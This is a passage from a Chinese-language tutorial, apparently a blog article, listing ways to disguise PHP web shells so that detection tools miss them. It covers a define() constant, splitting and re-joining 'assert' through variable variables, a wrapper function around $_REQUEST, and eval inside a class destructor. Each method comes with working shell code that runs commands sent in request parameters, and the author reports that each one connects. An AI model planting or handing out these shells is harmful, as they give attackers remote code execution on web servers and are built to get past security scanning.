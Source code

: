 这里的关键在于 define 函数，这个函数的作用是定义一个常量

  
我们这里设置一个常量为 a，它的值是 $_GET[1]，然后再去 eval 执行常量 a，实际就是 eval($_GET[1]);, 从而达到绕过的目的

测试可以正常连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4BNNJ2S1mibMYJ7BtggmOwpdGDygeyFbG6ycYicSekNiaGeElo1G7fzOqQ/640?wx_fmt=png)

**6. 字符串拼接 + 双美元符**

```
<?php
    $a='ass';  
    $b='ert';
    $funcName=$a.$b;
    $x='funcName';
$$x($_REQUEST[1]);
?>
```

这里通过把关键的 assert 进行分割，然后拼接

再通过 $$, 利用可变变量去执行

测试可以正常连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4z7L23icyZePdcnV6ibZGHBFeJrpWic2dRSNBXiaLX5LRsNHq7jA7gm1VCQ/640?wx_fmt=png)

**7. 通过函数定义绕过**

```
<?php
function a($a){
return $a;}
eval(a($_REQUEST)[1]);
?>
```

这里设置一个用户自定义函数 a, 当里面有参数时，返回该参数的内容

这里 shell 里的 a($_REQUEST)[1] 的实际效果为 a($_REQUEST)

相当于是 a($a)，会返回 $a 的内容

结果为 $_REQUEST，最后一行的实际内容为 eval($_REQUEST[1]);

测试可以正常连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4L1icmb6j9gupkAxSeaOaFVGtVicbx7BML3kPZH8j4AKqKhAnFCY01l3Q/640?wx_fmt=png)

**8. 通过类定义，然后传参分割**

```
<?php
class User
{
  public $name = '';
  function __destruct(){
    eval("$this->name");
  }
}
$user = new User;
$user->name = ''.$_REQUEST[1];
?>
```
